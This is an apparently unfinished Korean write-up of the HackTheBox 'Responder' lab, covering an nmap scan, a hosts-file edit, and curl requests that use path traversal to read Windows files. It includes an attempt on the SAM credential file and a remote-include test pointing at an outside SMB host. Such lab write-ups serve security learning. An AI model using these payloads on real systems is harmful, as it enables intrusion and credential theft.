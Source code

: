 ```yaml
---
title: HTB Responder Write-up
categories: [HackTheBox, Basic]
tags: [HackTheBox]
image:
    path: /assets/image_post/20240206200539.png
---
```


대상 서버 nmap 스캔 결과는 아래와 같다. (동일한 인자를 줬지만 kali에선 되고 mac에선 되지 않았다...왜그럴까..)
``` bash
# nmap 10.129.2.235 -sC -sV -Pn
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-05 14:03 UTC
Nmap scan report for 10.129.2.235
Host is up (0.51s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 197.03 seconds
```

80 port로 접근가 열려있는 것을 확인할 수 있으며, 접근 시 아래와 같이 .htb 사이트로 이동된다.

``` bash
# curl 10.129.73.133
<meta http-equiv="refresh" content="0;url=http://unika.htb/">#
```

하지만 이동 된 후 아무 페이지를 찾을 수 없다는 내용만 존재하여, 다양한 시도를 해보았으나 문제를 풀 수가 없었다.
![](../assets/image_post/20240207174302.png)

알고 보니 해당 증상은 문제가 있는 것으로 아래와 같이 hosts 파일을 수정해주어야 정상적으로 사이트에 접근된다.
``` bash 
sudo vi /etc/hosts

# 아래 IP는 각자 발급 받은 Machine의 IP 입력 필요
10.129.73.133    unika.htb
```

수정 후 사이트에 접근하면 정상적으로 접근되는 것을 확인 할 수 있다.
![](../assets/image_post/20240207174736.png)

문제를 풀던 중 아래 문제의 답이 도저히 나오지 않아 결국 타 공략을 보았다. NT Lan Manager가 많이 나와 왜 글자 수가 다르지? 생각했지만, NT도 줄임말이여서 그런 것이였다...괜히 패배한 기분이다.
![](../assets/image_post/20240207175049.png)

해당 사이트의 국가별 언어를 변경하면 아래 그림과 같이 page 파라미터에 인자를 받아온 것을 알 수 있다. 
![](../assets/image_post/20240207233736.png)

파일 명을 지정하고 있으므로 LFI와 RFI를 테스트해보았다. 지정한 경로는 문제에서 예시로 들어준 경로이다.
``` bash
 read-min 🎉   ~  curl http://unika.htb/index.php\?page\=../../../../../../../../windows/system32/drivers/etc/hosts

# Copyright (c) 1993-2009 Microsoft Corp.
#
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
#
# This file contains the mappings of IP addresses to host names. Each
# entry should be kept on an individual line. The IP address should
# be placed in the first column followed by the corresponding host name.
# The IP address and the host name should be separated by at least one
# space.
#
# Additionally, comments (such as these) may be inserted on individual
# lines or following the machine name denoted by a '#' symbol.
#
# For example:
#
#      102.54.94.97     rhino.acme.com          # source server
#       38.25.63.10     x.acme.com              # x client host

# localhost name resolution is handled within DNS itself.
#	127.0.0.1       localhost
#	::1             localhost
```
주요 파일에 대해서도 접근이 되는지 테스트 해보았으나, "Permission denied"가 반환되는 것을 알 수 있다.
``` bash
 ⚡ read-min 🔑   ~  curl http://unika.htb/index.php\?page\=../../../../../../../../../../../../Windows/System32/config/SAM
<br />
<b>Warning</b>:  include(../../../../../../../../../../../../Windows/System32/config/SAM): Failed to open stream: Permission denied in <b>C:\xampp\htdocs\index.php</b> on line <b>11</b><br />
<br />
<b>Warning</b>:  include(): Failed opening '../../../../../../../../../../../../Windows/System32/config/SAM' for inclusion (include_path='\xampp\php\PEAR') in <b>C:\xampp\htdocs\index.php</b> on line <b>11</b><br />
```
<br/>

아래는 RFI를 테스트한 결과이다. 아래의 결과처럼 존재하지 않는 파일에 대해선 "No such file"가 반환된다.
``` bash
 ⚡ read-min 🔑   ~  curl http://unika.htb/index.php\?page\=//10.10.14.6/somefile
<br />
<b>Warning</b>:  include(\\10.10.14.6\SOMEFILE): Failed to open stream: No such file or directory in <b>C:\xampp\htdocs\index.php</b> on line <b>11</b><br />
<br />
<b>Warning</b>:  include(): Failed opening '//10.10.14.6/somefile' for inclusion (include_path='\xampp\php\PEAR') in <b>C:\xampp\htdocs\index.php</b> on line <b>11</b><br />
```


작성 중

10.129.225.86

echo "10.129.225.86 unika.htb" | sudo tee -a /etc/hosts

